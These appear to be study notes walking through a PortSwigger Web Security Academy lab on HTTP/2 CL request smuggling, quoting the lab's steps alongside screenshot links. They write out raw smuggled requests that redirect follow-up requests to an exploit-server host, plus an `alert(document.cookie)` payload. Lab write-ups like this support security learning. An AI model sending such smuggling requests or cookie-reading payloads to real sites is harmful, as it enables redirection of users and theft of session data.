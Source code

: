 Create the following request to smuggle the start of a request for /resources, along with an arbitrary Host header: 

From <https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/57286361-598c-4808-89b8-5d87e80dd618)










• Send the request a few times. Notice that smuggling this prefix past the front-end allows you to redirect the subsequent request on the connection to an arbitrary host. 

From <https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling> 

```
POST / HTTP/2
Host: 0a130085036f6110833823da00be0008.web-security-academy.net
Content-Length: 60

GET /resources HTTP/1.1
Host: foo
Content-Length: 5

x=1
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/30ee1e02-8b2f-4099-973e-2e664aebacda)






Go to the exploit server and change the file path to `/resources`. In the body, enter the payload `alert(document.cookie)` then store the exploit.

From <https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling> 


Resend and confirm that you a redirected to the exploit server 
```
POST / HTTP/2
Host: 0a130085036f6110833823da00be0008.web-security-academy.net
Content-Length: 116

GET /resources HTTP/1.1
Host: exploit-0ad50048033961258315229901bc0095.exploit-server.net/resources
Content-Length: 5

x=1
```

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/b59eb779-1305-4f65-b268-988420d01a95)
